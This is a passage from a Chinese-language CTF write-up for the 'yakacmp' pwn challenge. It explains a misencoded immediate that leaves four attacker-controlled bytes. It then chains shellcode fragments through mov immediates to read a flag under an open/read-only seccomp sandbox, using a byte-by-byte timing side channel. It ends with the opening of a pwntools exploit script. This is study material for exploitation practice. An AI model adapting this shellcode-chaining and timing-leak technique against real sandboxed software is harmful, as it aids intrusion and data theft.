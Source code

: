 ![](https://img-blog.csdnimg.cn/3dd0d66d959b4c53b7223b976924f5d0.png)
可以看到，这里确实存在问题，有一个能够容纳最多4字节shellcode的空间。问题就出在最后一条语句中的赋值立即数。这里的``push``只能压入一个``DWORD``，但代码中却认为能压入一个``QWORD``，这就导致立即数的高4字节变成了独立的指令，且能够由我们完全控制。由于本题开启了沙箱，因此通过``syscall``调用``execve``是不行了，不过我们可以进行文件的相关操作。现在，就让我们来思考一下应该如何构造shellcode。

通过seccomp-tools可以获取到本题的沙箱：
![](https://img-blog.csdnimg.cn/e56f68ac283c493da680bbf62da6a950.png)
可见这里只允许我们进行打开和读操作，不能写。那我们应该如何获取到flag的值呢？阅读了大佬的exp之后，我发现这种利用方式和Web中的SQL时间盲注有几分相似之处。我们不能直接将flag写到控制台，但是我们确实能够获取到flag的值。记得时间盲注的原理就是利用字符比较函数逐字节猜解表名和字段名，这里也是同样的道理：对内存中的flag逐字节猜解。如果相等，则会阻塞一段时间，如果不等，则会直接退出报``EOFerror``。

参考现有的shellcode，我们需要将文件名``flag``或``flag.txt``压入栈中，然后通过``mov``指令将``rsp``的值赋值给其他寄存器。当然程序中并没有实现与``rsp``有关的指令，这就需要用到上面的4字节自由区域了。实际上如果我们跳转的地址合理，正常的``mov``指令中的8字节立即数也可以成为我们写入shellcode的地方，毕竟4个字节的空间要是想要组成一个完整的shellcode，还需要考虑跳转指令张勇的2字节，剩下的2字节能写入的shellcode实在有限，因此还需要合理利用``mov``指令的8字节立即数。考虑到上面提到的逐字节猜解，我们的shellcode需要实现的功能有：
1. 打开flag文件
2. 读取flag文件到内存
3. 每一次循环猜解一个字符，如果猜解正确就让其阻塞或陷入死循环，如果猜解错误就直接退出

下面我们来尝试实现shellcode。
注意：任意4字节代码能够生成必须前面要有连续的至少10个``mov``语句。

首先是打开flag文件。笔者采用flag这个文件名进行测试。
1. 利用``mov``指令将``"flag"``字符串写入0x23330000中：``movabs rax, 0x67616C66 ('flag')``
2. 写入9个``mov``指令：
	(1) 写入``jmp``后执行的第九段shellcode：``mov rax, 0x72ebxxb1188a (mov bl, byte ptr [rax] ; mov cl, xx ; jmp 114)``
	(2) 写入``jmp``后执行的第八段shellcode：``mov rax, 0xf0ebdb314858 (pop rax ; xor rbx, rbx ;  ; jmp -16)``
	(3) 写入``jmp``后执行的第七段shellcode：``mov rax, 0xefeb23330fxx68 (push 0x23330F00 + i ; jmp -17)``
	(4) 写入``jmp``后执行的第六段shellcode：``mov rax, 0xefeb050f58006a (push 0 ; pop rax ; syscall ; jmp -17)``
	(5) 写入``jmp``后执行的第五段shellcode：``mov rax, 0xf0eb5a406a5e (pop rsi ; push 0x40 ; pop rdx ; jmp -16)``
	(6) 写入``jmp``后执行的第四段shellcode：``mov rax, 0xefeb23330f0068 (push 0x23330F00 ; jmp -17)``
	(7) 写入``jmp``后执行的第三段shellcode：``mov rax, 0xefeb5f036a050f (syscall ; push 3 ; pop rdi ; jmp -17)``
	(8) 写入``jmp``后执行的第二段shellcode：``mov rax, 0xefeb585f5e006a (push 0 ; pop rsi ; pop rdi ; pop rax ; jmp -17)``
	(9) 写入``jmp``后执行的第一段shellcode：``mov rax, 0xeeeb2333000268 (push 0x23330002 ; jmp -17)``
3. 写入``mov``指令，在4字节空间中写入跳转指令跳转到前面一条``mov``指令的立即数中，在此之前顺便``push``好``rax``的值：``//push// 0xF1EB00000002 (push 2 ; jmp -15)``
4. 写入``jmp``后执行的第十段shellcode：``mov rax, 0xfeeb1875cb38 (cmp bl, cl ; jne 23 ; jmp -2[dead loop])``
5. 写入``jmp``后执行的第十一段shellcode：``mov rax ; 0xc3 (ret)``

上面的代码中有两处``xx``，第一处表示猜解的字符，第二处表示猜解的是哪个下标的字符。由此我们可以写出本题的exp：

```python
import time

from pwn import *
context(arch='amd64')
flag = ''

elf = ELF('./yakacmp')
io = process('./yakacmp')

def make_add(reg1, reg2):
    return b'add ' + reg1 + b',' + reg2

def make_sub(reg1, reg2):
    return b'sub ' + reg1 + b',' + reg2

def make_chg(reg1, reg2):
    return b'chg ' + reg1 + b',' + reg2

def make_mov(reg1, reg2):
    return b'mov ' + reg1 + b',' + reg2

```